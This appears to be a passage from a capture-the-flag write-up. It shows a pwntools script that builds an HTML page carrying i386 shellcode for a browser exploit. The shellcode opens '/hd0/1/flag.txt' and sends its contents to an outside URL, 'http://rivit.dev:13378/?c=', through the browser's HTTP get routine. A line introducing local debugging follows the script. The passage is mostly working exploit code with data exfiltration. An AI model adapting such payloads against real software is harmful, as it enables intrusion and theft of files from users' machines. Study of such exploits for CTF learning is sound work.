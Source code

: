 ```python
from pwn import *

with open("index.html", 'rb') as f:
    templ = f.read()

payload_start = 0x31c552
str_addr = payload_start+0x80
flag_location = b'/hd0/1/flag.txt\0'
base_url = b'http://rivit.dev:13378/?c='

context.arch = 'i386'
payload = asm('nop') * 0x30 +  asm(f"""
mov eax, 0x44
mov ebx, 0x1b
mov ecx, {str_addr}
int 0x40

mov esi, eax
mov edi, {str_addr+len(flag_location)+len(base_url)}

loop:
    lodsb
    stosb
    test al, al
jnz loop

push {str_addr+len(flag_location)}
push 0x1137c
ret
""")

padding = (str_addr - payload_start) - len(payload)
payload += b'\x90' * padding
payload += flag_location
payload += base_url

templ = templ.replace(b'REPLACE', payload).replace(b'JUMP_ADDR', p32(payload_start).replace(p8(0), b''))

with open("index.html2", 'wb') as f:
    f.write(templ)
```

### Running the exploit locally

Let's run the browser and put breakpoint before `http.get` call.
